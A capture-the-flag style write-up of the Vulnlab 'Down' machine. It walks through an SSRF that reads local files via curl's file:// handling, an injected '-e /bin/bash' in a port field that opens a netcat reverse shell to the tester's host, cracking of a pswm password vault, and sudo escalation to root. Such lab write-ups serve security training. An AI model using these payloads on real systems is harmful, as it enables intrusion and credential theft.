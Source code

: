 ```yaml
---
title: "Vulnlab Machine : Down"
image: /images/Down/Down.png
description: "Down is a Linux box : bypass a cURL whitelist with two URLs, exploit an index.php parameter to spawn a www-data shell via netcat, then find the 'pswm' master password to decrypt the vault and escalate privileges."
date: 2025-09-21 20:00:00 +/-TTTT
categories: [Vulnlab]
tags: [Vulnlab, Linux, curl, pentest, sudo]
---
```


## Enumeration
### Nmap Scan
```sh
# Nmap 7.95 scan initiated Sun Sep 21 22:11:11 2025 as: /usr/lib/nmap/nmap --privileged -sV -sC -oN nmap.txt 10.10.91.137
Nmap scan report for 10.10.91.137
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 21 22:11:21 2025 -- 1 IP address (1 host up) scanned in 9.74 seconds
```
## Analysis and Exploitation
the web app  use the input url to print the source code of the webpage
![Alt text]( /images/Down/webapp.png)

As a example : `http://127.0.0.1:80/index.php`

![Alt text]( /images/Down/example.png)

it apears that this web app is vulnerable to SSRF vulnerability , i run a lestening server and i try  with `http://10.8.7.122:1234/` :
![Alt text]( /images/Down/lhost.png)

then , i notice that the webapp use `curl`
```sh
$ nc -lnvp 1234      
listening on [any] 1234 ...
connect to [10.8.7.122] from (UNKNOWN) [10.10.91.137] 42238
GET / HTTP/1.1
Host: 10.8.7.122:1234
User-Agent: curl/7.81.0
Accept: */*
```
> `curl` can takes as a arguments many `urls`

```sh
$ curl -I google.com x.com     
HTTP/1.1 301 Moved Permanently
Location: http://www.google.com/
Content-Type: text/html; charset=UTF-8
Content-Security-Policy-Report-Only: object-src 'none';base-uri 'self';script-src 'nonce-nV7JPTr7RjV_W6G-dXxDSw' 'strict-dynamic' 'report-sample' 'unsafe-eval' 'unsafe-inline' https: http:;report-uri https://csp.withgoogle.com/csp/gws/other-hp
Date: Sun, 21 Sep 2025 20:43:58 GMT
Expires: Tue, 21 Oct 2025 20:43:58 GMT
Cache-Control: public, max-age=2592000
Server: gws
Content-Length: 219
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN

HTTP/1.1 301 Moved Permanently
Date: Sun, 21 Sep 2025 20:43:58 GMT
Content-Type: text/html
Content-Length: 167
Connection: keep-alive
Cache-Control: max-age=3600
Expires: Sun, 21 Sep 2025 21:43:58 GMT
Location: https://x.com/
Set-Cookie: __cf_bm=tkhrc.qo3UwiIliqXzwIe4smUeHiRXhPh4487YW19GQ-1758487438-1.0.1.1-kC0nYv7_xDSaRsiWEESkZ5.hODfao8K7Q9_G8WvY3WoNVy2v0XdkTYdYNQowbY7NQPm6UDR4J62bLP5zNrl2OXcnjtnf565dhbaf5Mrwg0o; path=/; expires=Sun, 21-Sep-25 21:13:58 GMT; domain=.x.com; HttpOnly
Server: cloudflare
CF-RAY: 982c65db39e30289-CDG
```
let's exploit this ,but using `file` wrapper : `url=http://10.10.91.137+file:///etc/passwd `

![Alt text]( /images/Down/manyarg.png)

using this pyload , we got the content of `index.php`: `url=http://10.10.91.137+file:///var/www/html/index.php`

```php
<?php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' ) {
  echo '<h1>Is the port refused, or is it just you?</h1>
        <form id="urlForm" action="index.php?expertmode=tcp" method="POST">
            <input type="text" id="url" name="ip" placeholder="Please enter an IP." required><br>
            <input type="number" id="port" name="port" placeholder="Please enter a port number." required><br>
            <button type="submit">Is it refused?</button>
        </form>';
} else {
  echo '<h1>Is that website down, or is it just you?</h1>
        <form id="urlForm" action="index.php" method="POST">
            <input type="url" id="url" name="url" placeholder="Please enter a URL." required><br>
            <button type="submit">Is it down?</button>
        </form>';
}

if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Please specify a correct IP and a port between 1 and 65535.</font>';
  }
} elseif (isset($_POST['url'])) {
  $url = trim($_POST['url']);
  if ( preg_match('|^https?://|',$url) ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/curl -s $url");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
    if ( $rc === 0 ) {
      echo "<font size=+1>It is up. It's just you! 😝</font><br><br>";
      echo '<p id="outputDetails"><pre>'.htmlspecialchars(implode("\n",$output)).'</pre></p>';
    } else {
      echo "<font size=+1>It is down for everyone! 😔</font><br><br>";
    }
  } else {
    echo '<div class="output" id="outputSection">';
    echo '<font color=red size=+1>Only protocols http or https allowed.</font>';
  }
}
?>
```
Analyzing the code, there is a hidden mode of this application `expertmode` , let's discover it:

![Alt text]( /images/Down/expertmode.png)

`expertmode` will allow me to execute nc and get nc connection. also , there is no validation filter of `$ip` and `$port`, so let's  try to make it a reverse shell.

```yml
POST //index.php?expertmode=tcp HTTP/1.1
Host: 10.10.91.137
Content-Length: 23
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://10.10.91.137
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.91.137//index.php?expertmode=tcp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

ip=10.8.7.122&port=1337+-e+/bin/bash
```
we got the our re-shell, also the user flag
```sh
$ rlwrap nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.7.122] from (UNKNOWN) [10.10.91.137] 55176
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls
index.php
logo.png
style.css
user_aeT1xa.txt
cat user*
VL{}
```
after many operation, i notice that we had the access to `aleks` home directory, where i found a token in `/home/aleks/.local/share/pswm`
```yml
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==
```
after small research in google , i found this tool  to [bruteforce the pswm master password and decrypt the password vault](https://github.com/seriotonctf/pswm-decryptor) :

```sh
$ python3 pswm-decrypt.py -f token.txt -w rockyou.txt
[+] Master Password: flower
[+] Decrypted Data:
+------------+----------+----------------------+
| Alias      | Username | Password             |
+------------+----------+----------------------+
| pswm       | aleks    | flower               |
| aleks@down | aleks    | 1uY3w22uc-Wr{xNHR~+E |
+------------+----------+----------------------+
```
we use those credentials to make ssh connection

```sh
$ ssh aleks@10.10.91.137         
The authenticity of host '10.10.91.137 (10.10.91.137)' can't be established.
ED25519 key fingerprint is SHA256:uq3+WwrPajXEUJC3CCuYMMlFTVM8CGYqMtGB9mI29wg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.91.137' (ED25519) to the list of known hosts.
aleks@10.10.91.137's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-119-generic x86_64)
Last login: Sun Sep 15 09:14:52 2024 from 10.8.0.101
aleks@down:~$ 
```
## Privilege Escalation
As always the first things i check is my sudo power:

```sh
aleks@down:~$ sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```
ahah !! , Easy one this time , we have everything we need

```sh
aleks@down:~$ sudo su
root@down:/home/aleks# cd ~
root@down:~# ls
root.txt  snap
root@down:~# 
```
We got [the root flag](https://api.vulnlab.com/api/v1/share?id=c2397a68-a8c7-41a5-8268-ce1586a95e3b)

![Alt text]( /images/Down/rooted.png)
